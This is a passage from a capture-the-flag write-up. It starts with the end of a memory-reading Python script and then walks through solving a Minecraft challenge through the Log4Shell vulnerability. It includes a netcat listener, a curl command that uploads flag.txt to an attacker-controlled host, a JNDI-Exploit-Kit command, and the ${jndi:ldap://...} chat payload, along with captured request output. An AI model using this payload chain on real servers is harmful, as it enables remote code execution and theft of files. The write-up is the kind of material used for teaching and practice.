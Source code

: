                 result += c
            else:
                result += "."
    except:
        print("Error reading offset {}, filling with ?".format(offset))
        result += "????"
    if offset % 10 == 0:
        print("reading offset {}/120".format(offset))
print(result)
```

</br>

#### Minecraft - Medium

*My buddy set up a Minecraft server. I wonder what else is on their machine?*
</br>

The task is a Minecraft server running a vanilla Minecraft 1.16.5 server on OpenJDK 8u111. It is vulnerable for the [Log4Shell (https://en.wikipedia.org/wiki/Log4Shell) vulnerability. It can be exploited using a publicly available exploit toolkit such as [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit). The flag is hidden in a file named "flag.txt".

To start with, we need a publicly available server which we use to exfiltrate our data from the target network. This can be achieved by running `netcat` on a server of your choice:

```
nc -l 8001
```

We craft a command to upload the flag from the Minecraft server to the server that is running `netcat`. You can use any command here including a reverse shell, but for simplicity we just upload the flag file using `curl`:

```
curl --data-binary @flag.txt http://myserver:8001
```

To generate and serve the payload, we can use `JNDI-Exploit-Kit` and pass our crafted command as an argument:

```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "curl --data-binary @flag.txt http://myserver:8001/"
```

The tool will present a variety of different payloads. We take the `JDK 1.8 ldap://` payload and wrap it in a Log4j substitution:

```
${jndi:ldap://myserver:1389/w9nmaj}
```

Finally we just connect to the Minecraft server and drop the payload string in the chat. 

![](/images/neuland-ctf-04-2022/minecraft.png)
</br>

The server will log all chat messages to the server log and as a result trigger the Log4Shell vulnerability.

```
$ nc -l 8001
POST / HTTP/1.1
User-Agent: curl/7.38.0
Host: myserver:8001